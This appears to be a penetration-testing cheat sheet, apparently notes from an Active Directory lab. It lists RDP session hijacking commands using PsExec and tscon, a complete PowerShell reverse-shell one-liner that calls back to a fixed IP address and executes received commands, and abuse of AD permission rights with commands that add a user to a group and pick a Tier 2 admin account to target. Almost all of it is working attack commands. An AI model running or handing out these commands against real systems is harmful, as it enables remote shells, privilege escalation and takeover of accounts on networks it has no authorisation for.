 # RDP hijacking(without password before Windows server 2019)
`PsExec64.exe -s cmd.exe`*Get system priv*
`query user` *Check for State :disc*
`tscon 3 /dest:rdp-tcp#6`*Session 3 with is disc should be connected to our: tcp#6*

# Reverse Shell 

`$client = New-Object System.Net.Sockets.TCPClient('10.50.112.55',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
` 

# Permission Delegation (ACE's)
https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#

    ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
    AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
    GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
    GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
    WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
    WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
    AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

## AD-RSAT for permision delegation
# Add-ADGroupMember 
`$user = Get-ADUser -Identity 'user.name'
$group = Get-ADGroup -Identity 'IT Support'
Add-ADGroupMember -Identity $group -Members $user
Get-ADGroupMember -Identity $group`

# Check the members of a group
`Get-ADGroupMember -Identity "IT Support`

# # Pick a random T2 account to target
`$t2admin = Get-ADGroupMember -Identity 'Tier 2 Admins' | Get-Random -Count 1`
